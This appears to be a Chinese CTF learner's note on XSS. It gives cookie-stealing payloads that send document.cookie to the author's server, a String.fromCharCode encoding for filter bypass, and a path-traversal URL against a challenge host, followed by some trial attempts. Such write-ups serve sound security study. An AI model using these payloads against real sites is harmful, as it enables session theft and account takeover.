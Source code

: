 web题目 中xss的payload
这是第一次去接触xss类型的题目，学到了三点

1.如何去将目标的cookies弹到自己的服务器上
document.location="http://115.159.xx.xx/xss.php?cookie="+document.cookie new Image().src="http://115.159.xx.xx/xss.php?cookie="+document.cookie

2.如果前端过滤了尖括号等字符如何去bypass
document.location=String.fromCharCode(34,104,116,116,112,58,47,47,49,49,53,46,49,53,57,46,51,49,46,50,51,47,120,115,115,46,112,104,112,63,99,111,111,107,105,101,61,34,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101);

3.目录穿越导致的xss执行（这个目前还不是很理解，后面要去多查询该方面的资料
/jquery.min.js%2f..%2f..%2f../

有的时候payload最好在chrome的控制台里执行一下试试，因为经常会出现一两个符号错误导致的代码执行不通过
以下为尝试的几次
window.location.href="http://115.159.xx.xx/xss.php?cookie="+document.cookie;

window.location.href=String.fromCharCode(104,116,116,112,58,47,47,49,49,53,46,49,53,57,46,51,49,46,50,51,47,120,115,115,46,112
http://39.107.33.96:20000/index.php/view/article/41479/jquery.min.js%2f..%2f..%2f../%22http://115.159.xx.xx/xss.php?cookie=%22+document.cookie;

windows.lcoation.href=String.fromCharCode(104,116,116,112,58,47,47,49,49,53,46,49,53,57,46,51,49,46,50,51,47,120,115,115,46,112,104,112,63,99,111,111,107,105,101,61)+document.cookie;  